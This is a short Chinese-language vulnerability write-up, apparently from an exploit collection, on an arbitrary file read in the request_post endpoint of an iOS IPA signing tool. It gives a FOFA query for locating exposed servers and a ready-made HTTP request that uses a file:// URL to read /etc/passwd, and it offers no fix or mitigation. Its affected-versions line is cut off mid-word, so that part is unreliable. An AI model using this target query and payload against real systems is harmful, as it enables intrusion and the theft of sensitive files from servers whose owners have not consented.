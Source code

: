 # 苹果IOS端IPA签名工具request_post任意文件读取漏洞

# 一、漏洞简介
苹果IOS端IPA签名工具request_post任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

# 二、影响版本
+ 苹果IOS端IPA签名工具r

# 三、资产测绘
+ fofa`body="/assets/index/css/mobileSelect.css"`
+ 特征

![1727408181627-7dd57a7d-22a5-477e-b7c2-290f545d0933.png](./img/b5h66i7l2NQvoD5j/1727408181627-7dd57a7d-22a5-477e-b7c2-290f545d0933-666408.png)

# 四、漏洞复现
```java
GET /api/index/request_post?url=file:///etc/passwd&post_data=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
```

![1727408257756-4dc51a62-813c-4540-b5bb-8260cd03159d.png](./img/b5h66i7l2NQvoD5j/1727408257756-4dc51a62-813c-4540-b5bb-8260cd03159d-058160.png)





> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/haxm2dna8vo9em9h>